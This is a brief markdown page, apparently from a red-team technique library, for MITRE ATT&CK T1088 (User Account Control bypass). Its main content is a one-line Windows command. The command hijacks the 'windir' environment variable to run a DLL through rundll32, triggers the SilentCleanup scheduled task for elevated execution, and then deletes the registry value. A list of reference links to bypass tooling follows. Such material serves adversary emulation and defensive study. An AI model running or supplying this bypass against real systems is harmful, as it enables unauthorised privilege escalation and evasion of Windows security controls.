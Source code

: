 # Bypass User Account Control

---
* **ID**: T1088
* **Source**: <https://attack.mitre.org/techniques/T1088/>
---

# Details

## Exploit environment variables in Scheduled Task for User Account Control (UAC) bypass

```
reg add HKCU\Environment /v windir /d "rundll32 %APPDATA%\temp.txt,DllMain " /f&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I & reg delete HKCU\Environment /v windir /f
```

# References

* <https://github.com/hfiref0x/UACME>
* <https://tyranidslair.blogspot.com/2017/05/exploiting-environment-variables-in.html>
* <https://www.puckiestyle.nl/c-simple-reverse-shell/>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1085/T1085.md>

